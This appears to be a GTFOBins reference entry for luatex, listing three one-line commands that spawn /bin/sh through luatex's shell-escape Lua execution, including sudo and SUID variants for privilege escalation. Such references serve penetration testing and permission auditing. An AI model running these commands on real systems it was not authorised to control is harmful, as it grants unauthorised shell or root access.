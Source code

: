 description: This allows to execute [`lua`](/gtfobins/lua/) code.
functions:
  shell:
    - code: luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
  sudo:
    - code: sudo luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
  limited-suid:
    - code: ./luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
---

